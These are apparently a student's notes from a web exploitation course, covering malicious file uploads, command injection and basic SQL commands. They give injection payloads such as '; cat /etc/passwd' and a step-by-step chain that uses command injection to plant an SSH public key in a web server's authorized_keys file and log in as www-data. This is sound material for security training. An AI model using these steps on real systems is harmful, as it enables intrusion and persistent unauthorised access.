     **Malicious File Upload**
    Site allows unsanitized file uploads
    https://sec.cybbh.io/public/security/latest/lessons/lesson-4-        xss_sg.html#_demo_malicious_file_upload
    Server doesn’t validate extension or size
    Allows for code execution (shell)
    Once uploaded
        Find your file
        Call your file

    **Command Injection**
    Application on the server is vulnerable,
    allowing execution of arbitrary commands

    User input not validated
        Common example is a SOHO router, with a web page to allow ping

    Run the following to chain/stack our arbitrary command
        ; cat /etc/passwd

## SSH Key upload 
        check /etc/passwd for interactive shell
        generate an ssh key. 
        ls -la (.ssh folder is hidden)
        ssh-keygen -t rsa -b 4096 -> hit enter x2
        file id_rsa (private key)
        file id_rsa.pub (public key)
        from webserver command injection -> ;mkdir /var/www/.ssh
        then -> ; ls -la /var/www (to check if you made the file)
        then -> ; echo "" > /var/www/.ssh/authorized_keys (paste your public key between quotes)
        to check -> ; cat /var/www/.ssh/authorized_keys
        then -> ssh to it. ssh www-data@10.50.30.162

    **to ssh with someones private key**
        ssh -i id_rsa www-data@10.50.30.162 (to use a specific private key, replace 'id_rsa' with whatever you saved it as)

## Web Exploitation Day 2
https://sec.cybbh.io/-/public/-/jobs/870086/artifacts/slides/05-sql-injection-slides.html

    SQL
    S tructured Q uery L anguage - ANSI Standard
    Additional commands added by vendors
    Relational

    Standard Commands (SQL)
    SELECT - Extracts data from a database
    UNION - Used to COMBINE the result-set of TWO OR MORE SELECT STATEMENTS
    USE - Selects the DB to use
    UPDATE - Updates data in a database
    DELETE - Deletes data from a database
    INSERT INTO - Inserts new data into a database
    CREATE DATABASE - Creates a new database
    ALTER DATABASE - Modifies a database
    CREATE TABLE - Creates a new table
    ALTER TABLE - Modifies a table
    DROP TABLE - Deletes a table
    CREATE INDEX - Creates an index (search key)
    DROP INDEX - Deletes an index
